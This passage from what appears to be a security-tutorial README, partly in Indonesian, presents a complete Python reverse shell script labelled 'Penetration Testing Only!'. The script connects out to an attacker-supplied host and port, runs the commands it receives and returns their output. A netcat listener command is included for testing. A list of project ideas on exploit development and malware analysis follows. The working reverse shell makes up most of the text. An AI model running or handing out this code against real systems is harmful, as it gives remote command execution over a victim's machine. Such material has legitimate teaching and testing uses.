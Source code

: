 ### 10.4 Reverse Shell (Penetration Testing Only!)

```bash
cat > reverse_shell.py << 'EOF'
#!/usr/bin/env python3
import socket
import subprocess
import sys

def reverse_shell(host, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    
    while True:
        command = s.recv(1024).decode()
        if command.lower() == 'exit':
            break
        
        output = subprocess.getoutput(command)
        s.send(output.encode())
    
    s.close()

if __name__ == "__main__":
    # Usage: python3 reverse_shell.py <attacker_ip> <port>
    if len(sys.argv) < 3:
        print("Usage: python3 reverse_shell.py <host> <port>")
        sys.exit(1)
    
    reverse_shell(sys.argv[1], int(sys.argv[2]))
EOF

# Test dengan nc -lvp 4444 di device lain
```

---

## 🎯 Advanced Projects

### Project 1: Automated Security Audit Tool

Combine semua tools di atas jadi satu automated security auditor.

### Project 2: Bug Bounty Reconnaissance Framework

Build framework untuk bug bounty hunting dengan automation penuh.

### Project 3: Custom Exploit Development

Learn buffer overflow, shellcode, dan exploit development.

### Project 4: Android Malware Analysis Lab
